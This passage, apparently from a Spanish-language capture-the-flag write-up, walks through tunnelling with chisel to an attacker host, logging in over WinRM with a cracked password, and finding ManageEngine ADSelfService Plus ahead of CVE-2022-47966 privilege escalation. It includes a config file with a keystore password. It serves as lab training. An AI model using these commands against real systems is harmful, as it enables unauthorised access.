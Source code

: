 
```bash
./chisel client 10.10.14.2:8000 R:5985:172.16.22.1:5985
```


- Y ahora intentamos conectarnos usando "evil-winrm" como el usuario "matthew" usando la contraseña que habíamos crackeado:

```bash
$evil-winrm -i 10.10.14.2 -u matthew -p 147258369
```


# ESCALADA DE PRIVILEGIOS:

# ADSelfService Plus SAML RCE (CVE-2022-47966).
- Habremos accedido al sistema Windows como el usuario "matthew", como podremos notar si hacemos un "ipconfig" hay dos interfaces, la que pertenece a la IP real de la máquina y la otra a la del contenedor.

- Si vamos al directorio "/Program Files (x86)" vemos una carpeta poco común ("ManageEngine"), entramos y vemos otra carpeta llamada "ADSelfService Plus"

- Buscamos en internet qué es "ADSelfService Plus" y en qué puertos funciona de forma predeterminada.

- Descubrimos que esta aplicación por defecto usa los puertos 80 y 443 para sus conexiones http y https respectivamente, además, si entramos al directorio "C:\Program Files (x86)\ManageEngine\ADSelfService Plus\conf" y leemos el archivo "server.xml" podremos ver más información de la aplicación sobre la máquina víctima.

- En este caso, al final de ese archivo vemos lo siguiente:

```xml
<Connector SSLEnabled="true" acceptCount="100" ciphers="TLS_ECDHE_RSA_WITH_AES_128_CBC_SHA256,TLS_ECDHE_RSA_WITH_AES_128_CBC_SHA,TLS_ECDHE_RSA_WITH_AES_256_CBC_SHA384,TLS_ECDHE_RSA_WITH_AES_256_CBC_SHA,TLS_RSA_WITH_AES_128_CBC_SHA256,TLS_RSA_WITH_AES_128_CBC_SHA,TLS_RSA_WITH_AES_256_CBC_SHA256,TLS_RSA_WITH_AES_256_CBC_SHA" clientAuth="false" debug="0" disableUploadTimeout="true" enableLookups="false" keystoreFile="conf/server.p12" keystorePass="CertPass2023" keystoreType="PKCS12" maxSpareThreads="75" maxThreads="150" minSpareThreads="25" name="SSL" port="9251" relaxedQueryChars="\" scheme="https" secure="true" sslEnabledProtocols="TLSv1,TLSv1.1,TLSv1.2" sslProtocol="TLS"/>
```


- Vemos que está teóricamente utilizando el puerto "9251".

- Listamos los puertos en uso de la máquina:

```bash
$netstat -ano -p TCP
```

- Podemos confirmar que el puerto "9251" está siendo utilizado por la máquina.

- Con toda esta información, hacemos un túnel de todos los puertos de esta máquina Windows a nuestra máquina atacante para poder interactuar con esta aplicación:
